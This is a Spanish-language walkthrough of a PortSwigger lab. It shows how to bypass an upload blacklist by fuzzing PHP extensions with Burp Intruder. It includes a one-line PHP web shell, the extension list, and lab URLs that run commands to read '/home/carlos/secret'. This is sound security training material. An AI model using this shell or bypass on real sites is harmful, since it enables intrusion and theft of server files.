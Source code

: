 ```yaml
---
title: Web shell upload via extension blacklist bypass
description: Laboratorio de Portswigger sobre File Upload
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload
tags:
  - Portswigger Labs
  - File Upload
  - Web shell upload via extension blacklist bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser eludida debido a una falla fundamental en la `configuración` de esta `blacklist`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-4/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-4/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-4/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-4/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Lab-4/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite

![](/assets/img/File-Upload-Lab-4/image_6.png)

En Hacktricks hay una lista de extensiones que pueden interpretar código php [https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology), nos creamos una lista con estas extensiones

```
# cat extensions.txt 
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.php
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```

Mandamos la petición al intruder de Burpsuite y seleccionamos la extensión

![](/assets/img/File-Upload-Lab-4/image_7.png)

Nos vamos a Payloads, pulsamos en Load, cargamos la lista de extensiones, en la parte inferior de esta ventana desmarcamos el `Payload encoding` y pulsamos en Start attack

![](/assets/img/File-Upload-Lab-4/image_8.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Lab-4/image_9.png)

Desde el repeater de Burpsuite he ido mandando los payloads manualmente hasta que he dado con el .phar el cual si me ha interpretado `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=whoami`, he tenido que hacerlo de esta forma porque los archivos subidos se van eliminando

![](/assets/img/File-Upload-Lab-4/image_10.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Lab-4/image_11.png)

Obtenemos el contenido del archivo secret `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-4/image_12.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Lab-4/image_13.png)
